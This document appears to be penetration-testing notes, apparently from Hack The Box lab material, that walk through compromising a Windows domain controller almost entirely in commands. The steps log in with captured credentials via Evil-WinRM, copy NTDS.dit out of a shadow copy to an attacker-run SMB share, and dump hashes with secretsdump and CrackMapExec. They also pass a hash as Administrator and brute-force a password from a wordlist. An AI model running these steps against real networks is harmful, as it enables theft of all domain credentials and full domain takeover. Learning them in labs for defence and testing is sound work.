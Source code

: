 #### Connecting to a DC with Evil-WinRM

We can connect to a target DC using the credentials we captured.

  Connecting to a DC with Evil-WinRM

```shell-session
Tachipy@htb[/htb]$ evil-winrm -i 10.129.105.96  -u jmarston -p 'P@ssword!'
```
#### Checking Local Group Membership

Once connected, we can check to see what privileges `bwilliamson` has. We can start with looking at the local group membership using the command:

  Checking Local Group Membership

```shell-session
*Evil-WinRM* PS C:\> net localgroup
```
#### Checking User Account Privileges including Domain

  Checking User Account Privileges including Domain

```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson
```
#### Creating Shadow Copy of C:

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```
#### Copying NTDS.dit from the VSS

We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

  Copying NTDS.dit from the VSS

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
#### Creating a Share with smbserver.py

```shell-session
Tachipy@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

#### Transferring NTDS.dit to Attack Host

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.221\CompData 
```
#### A Faster Method: Using cme to Capture NTDS.dit

Alternatively, we may benefit from using CrackMapExec to accomplish the same steps shown above, all with one command. This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.

  A Faster Method: Using cme to Capture NTDS.dit

```shell-session
Tachipy@htb[/htb]$ crackmapexec smb 10.129.105.96 -u jmarston -p P@ssword! --ntds
```

#### Dump ntds hashes
```cmd
(LHOST)
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
(RHOST)
secretsdump -ntds C:\path\to\NTDS.dit -system C:\path\to\SYSTEM


(RHOST)
secretsdump.py -ntds NTDS.dit -system system.save LOCAL
```


#### Pass-the-Hash with Evil-WinRM Example

  Pass-the-Hash with Evil-WinRM Example

```shell-session
Tachipy@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```


#### Brute Force User
```cmd
crackmapexec smb 10.129.113.102 -u jmarston -p /usr/share/wordlists/fasttrack.txt
```

